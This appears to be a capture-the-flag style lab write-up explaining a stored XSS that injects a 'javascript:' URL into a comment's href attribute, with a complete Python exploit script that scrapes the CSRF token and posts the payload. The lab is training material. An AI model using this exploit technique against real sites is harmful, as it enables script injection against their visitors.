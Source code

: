 ```yaml
---
title: 'XSS Lab 8'
description: 'Stored XSS into an anchor href attribute by injecting a javascript: URL'
---
```



## Stored XSS into anchor href attribute with double quotes HTML-encoded

<div style="text-align: justify;">
  This lab contains a stored cross-site scripting (XSS) vulnerability in the comment functionality. The application reflects the "Website" input inside an anchor `<a href="...">` attribute and HTML-encodes double quotes, which prevents straightforward attribute-breaking payloads. By supplying a `javascript:` URL as the website value and using Burp Suite to intercept and replay requests, it's possible to inject a JavaScript URL that executes when the comment author name (the anchor) is clicked. This technique demonstrates how XSS can be achieved even when quotes are encoded, by taking advantage of a reflected URL context.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The comment "Website" field is reflected inside an anchor `href` attribute on the post page.
- Double quotes are HTML-encoded, preventing breaking out of the attribute, but `javascript:` URLs inside `href` still execute when navigated to.
- Submit a benign value first (random alphanumeric) and observe it being reflected inside the anchor `href` via Burp Repeater.
- Replace the reflected value with `javascript:alert(1)` in the intercepted request and resend.
- Verify by right-clicking the author name, copying the URL, pasting it into the address bar, or clicking the name — the injected `javascript:` URL should trigger the alert.
- This is a stored XSS because the payload is saved and later executed when the anchor is used.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests, sys, urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080','https': 'http://127.0.0.1:8080'}

def check_burp():
    try:
        requests.get("http://127.0.0.1:8080", proxies=proxies, timeout=3, verify=False)
    except:
        print("[-] Burp Suite not running.")
        sys.exit(1)

def exploit_xss(url, payload):
    s = requests.Session()
    s.proxies, s.verify = proxies, False

    post_page = url.rstrip("/") + "/post?postId=5"
    r = s.get(post_page); r.raise_for_status()
    soup = BeautifulSoup(r.text, "html.parser")
    csrf = soup.find("input", {"name": "csrf"})["value"]

    data = {
        "csrf": csrf,
        "postId": "5",
        "comment": "xss",
        "name": "test",
        "email": "test@test.com",
        "website": payload
    }
    s.post(url.rstrip("/") + "/post/comment", data=data).raise_for_status()

    if "Congratulations" in s.get(url).text:
        print("[+] Lab solved! 🎉"); return True
    return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>"); sys.exit(1)
    check_burp()
    print("[*] Attempting XSS...")
    if exploit_xss(sys.argv[1], 'javascript:alert(1)'):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```